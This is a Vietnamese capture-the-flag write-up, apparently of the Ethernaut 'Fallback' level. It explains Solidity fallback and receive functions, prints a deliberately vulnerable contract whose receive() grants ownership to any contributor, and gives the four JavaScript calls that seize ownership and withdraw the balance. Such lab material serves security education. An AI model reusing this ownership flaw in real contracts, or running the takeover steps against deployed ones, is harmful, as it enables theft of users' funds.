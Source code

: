 # Level 1: Fallback 
## ★☆☆☆☆
Có vẻ challenge này sẽ có gì đó liên quan đến fallback function =))  
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
## Fallback function là gì ?
Đây là một hàm đặc biệt trong smart contract, nó là một external function không tên và được sử dụng khi contract nhận ether, nó không có tham số và được gọi khi có ai đó gọi hàm không có trong contract. 
> Note: Từ solidity version 0.6.0 về sau, fallback function được tách ra làm 2 là ``fallback`` và ``receive()``  

**Receive function**: Một contract cần có ít nhất 1 hàm receive và nó sử dụng cú pháp ```receive() external payable { ... }```. Tương tự như fallback, receive không có tham số cũng không trả về gì cả. Nó được thiết kế để handle incoming ether mà không có data truyền vào. 
>Nếu không có hàm receive thì nó sẽ rơi vào fallback được khai báo là payable. Nếu không có cả hàm receive lẫn hàm fallback với payable, contract sẽ không thể nhận eth và bắn ra exception.  

>Từ các version về sau, ``receive()`` thường được ưu tiên vì tính rõ ràng hơn so với ``fallback()``
### Example
```solidity
contract special
{
    string public fall;
 
    // This fallback function
    // will keep all the Ether
    fallback() external payable{
        fall="Fallback function is executed!";
    }

}
```
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;

// This contract keeps all Ether sent to it with no way
// to get it back.
contract Sink {
    event Received(address, uint);
    receive() external payable {
        emit Received(msg.sender, msg.value);
    }
}
```

## Solution
Nhiệm vụ của chúng ta là chiếm quyền owner và withraw hết balance của contract.  
Để ý kỹ thì trong code ta sẽ nhận ra ngay hàm ``receive()`` như một fallback function
```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
Để đáp ứng require, ta cần trở thành contributior trước  
```javascript
await contract.contribute({value:toWei(0.0001)})
```
Trigger receive function bằng cách send cho nó ether
```javascript
await contract.send(1)
```
Check owner và withdraw thôi
```javascript
await contract.owner()

```
```javascript
await contract.withdraw()

```
## Reference
https://docs.soliditylang.org/en/v0.8.17/contracts.html#special-functions


